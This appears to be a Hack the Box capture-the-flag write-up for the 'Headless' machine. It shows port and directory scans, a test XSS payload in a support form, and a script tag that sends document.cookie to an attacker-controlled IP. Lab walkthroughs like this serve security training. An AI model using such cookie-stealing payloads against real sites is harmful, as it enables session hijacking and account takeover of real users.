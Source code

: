 # Hack the Box | Headless

```shell
rustscan -b 1000 -u 5000 -a 10.10.11.8 -r 0-65535
```
```shell
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.8:22
Open 10.10.11.8:5000
[~] Starting Script(s)
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-28 04:58 EDT
Initiating Ping Scan at 04:58
Scanning 10.10.11.8 [2 ports]
Completed Ping Scan at 04:58, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:58
Completed Parallel DNS resolution of 1 host. at 04:58, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 04:58
Scanning 10.10.11.8 [2 ports]
Discovered open port 22/tcp on 10.10.11.8
Discovered open port 5000/tcp on 10.10.11.8
Completed Connect Scan at 04:58, 0.11s elapsed (2 total ports)
Nmap scan report for 10.10.11.8
Host is up, received conn-refused (0.11s latency).
Scanned at 2024-07-28 04:58:24 EDT for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
5000/tcp open  upnp    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

![image](https://github.com/user-attachments/assets/3f8bfa63-74f2-45f5-bf57-0aa09aab8802)
```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Sun, 28 Jul 2024 13:12:35 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2799
Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
Connection: close
```
![image](https://github.com/user-attachments/assets/7f735d8a-1c76-438f-869c-7a5ef2bcf244)
![image](https://github.com/user-attachments/assets/cf9b28f5-7fae-4ee1-9987-c46479da10be)
![image](https://github.com/user-attachments/assets/480f95e3-2ac1-4db1-a882-33250ba8247f)
```
fname=Ricky&lname=1337&email=ricky%40hackme.com&phone=9879879870&message=<script>alert('XSS')</script>
```
![image](https://github.com/user-attachments/assets/b43b8b99-2efb-4feb-a712-da2b2e09dd35)

```shell
feroxbuster -u http://10.10.11.8:5000 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --no-recursion --dont-extract-links --random-agent --filter-status 404 --redirects
```
```shell
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.4
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.8:5000
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.4
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       93l      179w     2363c http://10.10.11.8:5000/support
200      GET       96l      259w     2799c http://10.10.11.8:5000/
500      GET        5l       37w      265c http://10.10.11.8:5000/dashboard
[####################] - 24s     4725/4725    0s      found:3       errors:0      
[####################] - 23s     4724/4724    202/s   http://10.10.11.8:5000/          
```
![image](https://github.com/user-attachments/assets/bd0d8ceb-9499-4274-9c79-631a16e67878)

![image](https://github.com/user-attachments/assets/1a624181-7897-4005-bb0f-13fac63fc3ec)

![image](https://github.com/user-attachments/assets/dc1d7bcf-ed72-4b3a-ba99-d321a19c5282)

![image](https://github.com/user-attachments/assets/6ee1f70c-b15b-463d-8770-1c184b2687f1)

```js
<script>var i=new Image(); i.src="http://10.10.14.47/?c="+document.cookie;</script>
```
![image](https://github.com/user-attachments/assets/1c522809-9751-4e4f-b49b-c7f9034f057d)

![image](https://github.com/user-attachments/assets/a4648355-36a0-49ec-b160-1b5beb5e8ecf)

Response in browser:
![image](https://github.com/user-attachments/assets/c542ecdc-e135-43eb-99f5-6dd7d2656af8)
